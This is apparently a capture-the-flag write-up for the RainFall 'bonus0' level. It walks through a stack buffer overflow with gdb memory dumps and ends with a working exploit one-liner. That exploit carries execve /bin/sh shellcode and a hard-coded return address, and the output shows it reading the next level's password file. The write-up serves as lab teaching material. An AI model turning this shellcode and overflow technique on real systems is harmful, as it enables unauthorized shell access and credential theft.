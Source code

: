 # bonus 00

The program wait for two input, and print them concatenated by a space :

```bash
bonus0@RainFall:~$ ./bonus0 
 - 
qwerty
 - 
qwerty
qwerty qwerty
```

By looking at the code, we can see that there are two read function executed. Each buffer read from the stdin is truncated to 20 bytes. They are then concatened with a strcpy first, and a strcat.

By simply passing two input of 20 bytes length, the program segfault:

```bash
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA
 - 
BBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

By looking after the function `pp`, we can see that there are 4 four random bytes copied before the space :

```bash
Breakpoint 3, 0x080485bd in main ()
(gdb) x/24wx $eax
0xbffff6d6:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6e6:     0x41414141      0x42424242      0x42424242      0x42424242
0xbffff6f6:     0x42424242      0x42424242      0xb7fd0ff4      0x42424220
0xbffff706:     0x42424242      0x42424242      0x42424242      0x42424242
0xbffff716:     0xfd0ff442      0xc85800b7      0x0000b7fd      0xf71c0000
0xbffff726:     0xf7acbfff      0x0000bfff      0x824c0000      0x0ff40804
(gdb) x $ebp
0xbffff708:     0x42424242
(gdb) x $ebp+4
0xbffff70c:     0x42424242
(gdb) p/d 0xbffff70c-0xbffff6d6
$3 = 54
```

`eip` is 54 bytes from the beginning of the buffer. We have five bytes between the 40 first and the last 20. So we need to put bytes at 10th position of the second buffer to overwrite `eip` :

```bash
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA
 - 
BBBBBBBBBCCCCBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBCCCCBBBBBBB��� BBBBBBBBBCCCCBBBBBBB���

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

Then, we need to execute a shellcode. For this, we will put it in the read buffer that contains 4096 bytes. We will write many `\x90` because we have seen that the program contains a stack protection that randomized stack addresses. So we run the program in `gdb` with `set exec-wrapper env -u LINES -u COLUMNS` to avoid to many differences between addresses in `gdb` and in a real environnment.

We first set a breakpoint after a read call to see the beginning of the buffer address and calcute the address 200 bytes after:

```bash
Breakpoint 1, 0x080484e6 in p ()
(gdb) x/3wx $esp
0xbfffe650:     0x00000000      0xbfffe660      0x00001000
(gdb) x/24wxx 0xbfffe660
0xbfffe660:     0x42424242      0x42424242      0x43434342      0x42424243
0xbfffe670:     0x42424242      0x0000000a      0x00000000      0x00000000
0xbfffe680:     0x00000000      0x00000000      0x00000000      0x00000000
0xbfffe690:     0x00000000      0x00000000      0x00000000      0x00000000
0xbfffe6a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbfffe6b0:     0x00000000      0x00000000      0x00000000      0x00000000
(gdb) x/x 0xbfffe660 + 220
0xbfffe73c:     0x00000000
```

We can now try to exploit the program:

```bash
bonus0@RainFall:~$ (python -c 'print "\x41" * 20 + "\x90" * 400 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'; python -c 'print "\x42" * 9 + "\x28\xe7\xff\xbf" + "\x42" * 7';cat) | ./bonus0
 - 
 - 
AAAAAAAAAAAAAAAAAAAABBBBBBBBB(���BBBBBBB��� BBBBBBBBB(���BBBBBBB���
whoami
bonus1
cd /home/user/bonus1
cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
